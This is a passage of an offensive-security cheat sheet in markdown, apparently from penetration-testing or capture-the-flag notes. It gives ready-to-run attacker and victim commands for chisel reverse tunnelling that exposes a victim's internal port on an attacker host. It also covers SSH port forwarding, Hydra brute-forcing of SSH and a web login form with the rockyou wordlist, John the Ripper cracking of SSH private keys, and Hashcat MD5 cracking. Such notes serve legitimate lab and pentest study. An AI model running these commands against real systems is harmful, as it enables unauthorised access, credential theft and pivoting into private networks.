 If 127.0.0.1:6666

- On attacker

```sh
apt-get install chisel
# Copy chisel to victim
chisel server --reverse --port 9002
```

- On victim

```sh
./chisel client 10.9.129.247:9002 R:9001:127.0.0.1:6666
```

- On attacker, go to `localhost:9001`

## SSH

* -L: Direct Redirect
* -D: SOCKS Redirect
* -N: Do not connect

Redirect localhost to victim host
```bash
ssh -N -L 8080:hack.thm:8080 localhost
```

## Password Hack

### Hydra

```sh
hydra -f -t 4 -l user -P /usr/share/wordlists/rockyou.txt ssh://$IP
```

```sh
hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"
```

### JohnTheRipper

- ssh private key

```sh
/usr/share/john/ssh2john.py [ssh_file] > forjohn
john --wordlist=wordlist.txt forjohn
```

### Hashcat

- MD5 Wordlist

```sh
hashcat -a 0 -m 0 "42f749ade7f9e195bf475f37a44cafcb" /usr/share/wordlists/rockyou.txt
```
